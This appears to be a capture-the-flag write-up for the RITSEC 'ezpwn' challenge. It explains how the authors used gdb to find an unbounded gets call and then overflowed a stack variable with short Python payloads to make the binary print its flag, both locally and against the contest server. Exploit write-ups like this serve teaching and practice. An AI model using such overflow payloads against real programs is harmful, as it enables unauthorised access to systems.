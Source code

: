 ## exploit

This program was an ELF 64-bit executable, dinamically linked and not stripped, we used gdb to study how the programs works and try to identify a vulnerability. 
I noticed the `gets` function and after that this instruction:
```assembly
cmpl   $0x1,-0x8(%rbp)
```
If this compare is true the programs continue performing an `open` to a file called `flag.txt` and a bunch of `putchar`. 
We have no boundary check for `gets` function so we tried to overflow filling gap between input string and `-0x8(%rbp)`, it was enough only 24 bytes to do that. 
So we followed this two steps:

* create stub `flag.txt` 
* exploit with command: ``` $ (python -c 'print "a"*24+"\x01"';cat)|./ezpwn```

The exploit worked perfectly, after that we tried in remote:
```bash
$ (python -c 'print "a"*28+"\x01"';cat) | nc fun.ritsec.club 8001
```
that's not the exact number of bytes we obtained for local exploit, but we were sure of vulnerability and just tryed with different string length

